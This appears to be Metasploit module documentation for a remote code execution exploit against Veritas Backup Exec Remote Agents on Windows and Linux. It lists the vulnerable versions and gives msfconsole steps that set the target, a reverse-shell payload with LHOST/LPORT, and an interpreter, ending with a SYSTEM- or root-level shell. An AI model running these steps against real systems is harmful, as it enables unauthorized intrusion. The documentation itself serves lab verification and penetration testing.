 ## Vulnerable Application

Backup Exec consists of a server component as well as remote agents that are
installed on each host that should be backed up by the server.

There are remote agents available for a range of data sources, including
operating-system level agents for Windows and Linux hosts' local filesystems,
application-specific agents for Microsoft Exchange, SharePoint, Active
Directory, etc., and agents for virtual machines such as VMware or Hyper-V
instances. This exploit targets the Windows and Linux OS-level remote agents.
The agents are installed as services running by default with
`NT AUTHORITY\SYSTEM` or `root` user rights for Windows and Linux respectively.

Vulnerable Backup Exec Remote Agent versions are 9.3 and below. These
agents' versions are distributed with Backup Exec versions 21.1 and below.

A trial version of Backup Exec can be downloaded from Veritas'
[website](https://www.veritas.com/form/trialware/backup-exec).
All supported version of Backup Exec is available in Veritas'
[download center](https://www.veritas.com/content/support/en_US/downloads/).

## Verification Steps

1. Download Backup Exec distributive and install Backup Exec Remote
   Agent on Windows or Linux host.
2. Start `msfconsole`.
3. Select the module and set the address of the host running the remote agent:
```
   use exploit/multi/veritas/beagent_sha_auth_rce
   set RHOSTS [REMOTE_AGENT_HOST]
```
4. Check the service is running and potentially vulnerable with the `check`
   command.
5. Set TARGET (Windows or Linux) depending on operating system on the host
   running the remote agent:
```
   set TARGET [OS_NAME]
```
6. Set and configure preferred payload:
```
   set PAYLOAD [PAYLOAD_NAME]
   set LHOST [LOCAL_IP]
   set LPORT [LOCAL_PORT]
```
7. If Backup Exec Remote Agent run on the Linux then set preferred interpreter
   to execute the command (by default, `/bin/bash`). The option does not matter
   for Windows hosts since the command will always be executed using
   `C:\Windows\System32\cmd.exe`.
```
   set INTERPRETER [INTERPRETER_NAME]
```
8. Start the module using the `exploit` command.
9. Enjoy the received shell.
